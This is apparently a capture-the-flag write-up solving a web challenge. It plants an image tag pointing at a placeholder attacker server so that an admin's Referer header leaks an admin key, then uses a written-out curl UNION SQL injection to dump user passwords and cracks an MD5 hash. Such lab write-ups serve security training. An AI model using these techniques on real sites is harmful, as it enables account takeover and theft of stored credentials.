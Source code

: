 The Task:

> Good evening fellow hackers, your task is simple: find the password used by the user "sectalk" to register on the website.
  Basic Auth: user / th1s1ss0s3c_r3

First, post something with a link to website you control. I setup a tiny http server on one of my machines, but it's actually better to use https://requestb.in/ for it.

```html
  <img src="http://your-server-here/?some=params">
```

Then flag the image, admin will.

Referrer leaks admin key:

  Referer: http://wasp.nobe4.fr:9876/check/245?admin_key=Uzg2NmU4NjZjODY2dTg2NnI4NjZlODY2Szg2NmU4NjZ5ODY2

Check that url. use `curl -X POST` to access it.

Sql inject that id field, eventually getting to:

    curl -s --header 'Authorization: Basic dXNlcjp0aDFzMXNzMHMzY19yMw==' -X POST "http://wasp.nobe4.fr:9876/check/1 union (select id,id,id,id,name,password from users)?admin_key=Uzg2NmU4NjZjODY2dTg2NnI4NjZlODY2Szg2NmU4NjZ5ODY2"

Then MD5 reverse by googling -> `goodjob`. Done!

There were a lot of distracting false paths. Like admin key is base64 of something like "S418e418c418u418r418e418K418e418y418", but none of that really mattered.
